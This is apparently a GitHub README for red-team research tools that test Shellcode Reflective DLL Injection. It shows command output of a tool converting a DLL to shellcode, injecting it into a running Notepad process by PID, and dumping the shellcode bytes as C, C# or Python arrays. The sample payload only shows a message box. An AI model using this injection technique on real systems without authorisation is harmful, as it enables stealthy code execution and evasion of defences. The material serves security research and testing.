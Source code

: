 # Shellcode Reflective DLL Injection

This directory is for tools to test sRDI (Shellcode Reflective DLL Injection).

## TestLib

This DLL is for testing sRDI.
Simply pops up message box from loaded process.

## ReflectiveLoader

This program is a source of reflective loader shellcode.
Must be built as Release build.
Code in `.text` section corresponds to reflective loader shellcode.

## ShellcodeReflectiveInjector

This tool is to test sRDI:

```
PS C:\Dev> .\ShellcodeReflectiveInjector.exe

ShellcodeReflectiveInjector - Tool to test sRDI (Shellcode Reflective DLL Injection).

Usage: ShellcodeReflectiveInjector.exe [Options]

    -h, --help    : Displays this help message.
    -c, --convert : Flag to convert PE to shellcode.
    -i, --inject  : Flag to inject or load shellcode.
    -f, --format  : Specifies output format of dump data. "cs", "c" and "py" are allowed.
    -m, --module  : Specifies a PE file to generate shellcode.
    -p, --pid     : Specifies PID to inject shellcode.

[!] -m option is required.
```

To load DLL as shellcode, specifies DLL file with `-m` option and set `-i` flag as follows.
DLL will be converted a shellcode to trigger `DLL_PROCESS_ATTACH`:

```
PS C:\Dev> .\ShellcodeReflectiveInjector.exe -m .\TestLib.dll -i

[>] Reading module file.
    [*] Path : C:\Dev\TestLib.dll
[+] 10752 bytes module data is read successfully
[*] Module architecture is AMD64.
[>] Trying to convert module data to shellcode
[*] Got 0x3334 bytes shellcode.
[>] Trying to allocate shellcode buffer.
[+] Shellcode buffer is at 0x0000025DEB180000.
[*] Shellcode is written in shellcode buffer.
[>] Trying to update memory protection for shellcode buffer.
[+] Memory protection is updated successfully.
[>] Trying to create shellcode thread.
[+] Shellcode thread is started successfully.
    [*] Thread Handle : 0x2E4
[*] Done.
```

![](./figures/sRDI-load.png)

When PID specified with `-p` option, this tool convert DLL to shellcode and inject it remote process:

```
PS C:\Dev> Get-Process notepad

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    529      33    28008      66320       0.28  10236   1 Notepad


PS C:\Dev> .\ShellcodeReflectiveInjector.exe -m .\TestLib.dll -i -p 10236

[>] Reading module file.
    [*] Path : C:\Dev\TestLib.dll
[+] 10752 bytes module data is read successfully
[*] Module architecture is AMD64.
[>] Trying to convert module data to shellcode
[*] Got 0x3334 bytes shellcode.
[>] Trying to open the target process.
    [*] Process ID   : 10236
    [*] Process Name : Notepad
[+] Got a target process handle.
    [*] Process Handle : 0x2DC
[>] Trying to allocate shellcode buffer.
[+] Shellcode buffer is at 0x000001C85C5A0000.
[>] Trying to write shellcode to the target process.
[+] 13108 bytes DLL data is written in the target process.
[*] Shellcode is written in shellcode buffer.
[>] Trying to update memory protection for shellcode buffer.
[+] Memory protection is updated successfully.
[>] Trying to create shellcode thread.
[+] Shellcode thread is started successfully.
    [*] Thread Handle : 0x2E4
[*] Done.
```

![](./figures/sRDI-inject.png)

If you only want to export shellcode bytes into a file, set `-c` flag.
Exported files are named as `shellcode.bin` or `shellcode_{index}.bin`:

```
PS C:\Dev> .\ShellcodeReflectiveInjector.exe -m .\TestLib.dll -c

[>] Reading module file.
    [*] Path : C:\Dev\TestLib.dll
[+] 10752 bytes module data is read successfully
[*] Module architecture is AMD64.
[*] Got 0x3334 bytes shellcode.
[*] Export shellcode data to C:\Dev\shellcode.bin.
[*] Done.

PS C:\Dev> .\ShellcodeReflectiveInjector.exe -m .\TestLib.dll -c

[>] Reading module file.
    [*] Path : C:\Dev\TestLib.dll
[+] 10752 bytes module data is read successfully
[*] Module architecture is AMD64.
[*] Got 0x3334 bytes shellcode.
[*] Export shellcode data to C:\Dev\shellcode_0.bin.
[*] Done.

PS C:\Dev> dir shellcode*bin


    Directory: C:\Dev


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/16/2023   3:54 AM          13108 shellcode.bin
-a----         3/16/2023   3:54 AM          13108 shellcode_0.bin

PS C:\Dev> Format-Hex .\shellcode.bin


           Path: C:\Dev\shellcode.bin

           00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000   E8 00 00 00 00 59 41 B8 2F 09 00 00 4C 01 C1 48  è....YA¸/...L.ÁH
00000010   89 4C 24 08 55 53 56 57 41 54 41 55 41 56 41 57  Ll$áHì...eH.VAW

--snip--
```

To dump converted shellcode in some programming language format, set `-f` option with `-c` flag.
Currentry supports `c` (C/C++), `cs` (CSharp) and `py` (Python):

```
PS C:\Dev> .\ShellcodeReflectiveInjector.exe -m .\TestLib.dll -c -f cs

[>] Reading module file.
    [*] Path : C:\Dev\TestLib.dll
[+] 10752 bytes module data is read successfully
[*] Module architecture is AMD64.
[*] Got 0x3334 bytes shellcode.
[*] Dump shellcode in CSharp format:

var data = new byte[] {
    0xE8, 0x00, 0x00, 0x00, 0x00, 0x59, 0x41, 0xB8, 0x2F, 0x09, 0x00, 0x00,
    0x4C, 0x01, 0xC1, 0x48, 0x89, 0x4C, 0x24, 0x08, 0x55, 0x53, 0x56, 0x57,
    0x41, 0x54, 0x41, 0x55, 0x41, 0x56, 0x41, 0x57, 0x48, 0x8D, 0x6C, 0x24,
    0xE1, 0x48, 0x81, 0xEC, 0x88, 0x00, 0x00, 0x00, 0x65, 0x48, 0x8B, 0x04,

--snip--

[*] Done.
```

## References

* [sRDI – Shellcode Reflective DLL Injection](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/)

* [GitHub - monoxgas/sRDI](https://github.com/monoxgas/sRDI)

* [An Improved Reflective DLL Injection Technique](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)

## Acknowlegments

* Nick Landers ([@monoxgas](https://twitter.com/monoxgas))